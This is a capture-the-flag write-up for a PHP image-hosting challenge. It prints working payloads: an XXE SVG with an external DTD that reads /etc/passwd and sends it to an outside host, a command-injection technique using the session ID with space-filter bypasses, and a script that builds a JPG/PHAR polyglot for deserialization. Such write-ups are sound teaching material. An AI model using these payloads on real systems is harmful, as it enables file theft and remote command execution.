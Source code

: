 # Rubenscube
#### Author: Karol Baryła aka mmk1
In this challange we have a website which is very simple image hosting.
Robot image on the front page hints us to visit /robots.txt:
```
User-agent: *
Disallow: /harming/humans
Disallow: /ignoring/human/orders
Disallow: /harm/to/self
Disallow: source.zip
```
/source.zip contains website's source code. Turns out it allows us to upload png, jpg and svg images. One part of source is immediate red flag:
```php
<?php
$xmlfile = file_get_contents($file);
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
$svg = simplexml_import_dom($dom);
?>
```
So we have an XXE. To exploit it we use an svg image to upload:
```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE data SYSTEM "http://myvpsdomain.something/payload.dtd" >
<svg
	xmlns="http://www.w3.org/2000/svg"
	width="100"
	height="100"
	viewBox="-32 -32 68 68"
	version="1.1">
	<script>&send;</script>
	<circle
		cx="0"
		cy="0"
		r="24"
		fill="#c8c8c8"/>
	</svg>
```
and on vps:
```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://myvpsdomain.something/12ox1321?p=%file;'>">
%all;
```
and that let us read files from system. (Small note: in such challanges it is very useful to have an instance of [https://github.com/Runscope/requestbin]() running on some vps).
At that point I thought that the challange is over, but the flag was nowhere to be found, none of the usual locations was present. After some time I decided that it is probably not enough and started to search for other vulnerability.
```php
<?php
function create_thumb() {
        $file_path = $this->folder . $this->file_name . $this->extension;
        $thumb_path = $this->folder . $this->file_name . "_thumb.jpg";
        system('convert ' . $file_path . " -resize 200x200! " . $thumb_path);
}

Where $this->folder is defined as:
$this->folder = $file_path = "images/" . session_id() . "/";
?>
```

So if we can control session_id, we can perform command injection. 
First attempt on that was to just modify PHPSESSID cookie and hope for the best. 
Suprisingly, it worked on my VPS, with some limitations (', ", \\, space and some other chars were not working, so I had to perform bash commands without them), which I spent some time to bypass (no spaces allowed was the biggest problem. To do commands without them you can do something like: `$(sleep${IFS%?}10)`, which works on bash, dash, sh and probably some others.). After preparing full payload I tried to execute it on VPS, it worked, I had reverse shell. But when I tried to perform it on tasks machine, nothing happened. After spending some time thinking what went wrong and contacting the organizers, it turned out Ubunutu and Debian have different defaults when it comes to restrictions on PHPSESSID. So another dead end.

Third and final vulnerability was PHP unserialization. We can upload an image which is a polyglot: jpg and phar at the same time. Thanks to the earlier discovered XXE we can actually use it. We will be deserializng Image class, to perform earlier mentioned command injection, just in different way than modifying PHPSESSID cookie.
To to that, I tried to use this tool: [https://github.com/kunte0/phar-jpg-polyglot](), but it produced jpgs with wrong header, which were not recignized by the website. So I produced small script to create proper jpg/phar.

Final attack was to first pload polyglot JPG, then upload SVG which loaded our JPG as phar, which then performed command injection.
Final svg:
```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE data SYSTEM "http://myvpsdomain.something/payload.dtd" >
<svg
	xmlns="http://www.w3.org/2000/svg"
	width="100"
	height="100"
	viewBox="-32 -32 68 68"
	version="1.1">
	<script>&send;</script>
	<circle
		cx="0"
		cy="0"
		r="24"
		fill="#c8c8c8"/>
	</svg>
```
payload.dtd on VPS:
```
<!ENTITY % file SYSTEM "phar://images/ft00qtgjr96vaonmi9ait13k17/0deb0a9444214bb3dd77c8ba2cd50d2cb54f4df2.jpg/test.txt">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://myvpsdomain.something/12ox1321?p=%file;'>">
%all;
```
Script to procude jpg:
```php
<?php
$payload= " ; ./flag_dispenser> images/ft00qtgjr96vaonmi9ait13k17/flag.txt #";
class Image {}
$p = new Phar(__DIR__ . '/avatar.phar', 0);
$p->addFromString("test.txt", "test");
$object = new Image;
$object->folder = $payload;
$object->file_name = '';
$object->extension = '';
$p->setStub("\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01\x01\x01\x00\x48\x00\x48\x00\x00\xff\xdb\x00\x43\x00\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xc2\x00\x0b\x08\x00\x01\x00\x01\x01\x01\x11\x00\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xda\x00\x08\x01\x01\x00\x01\x3f\x10<?php __HALT_COMPILER(); ?>");
$p->setMetadata($object);

rename(__DIR__ . '/avatar.phar', __DIR__ . '/avatar.jpg');

?>
```
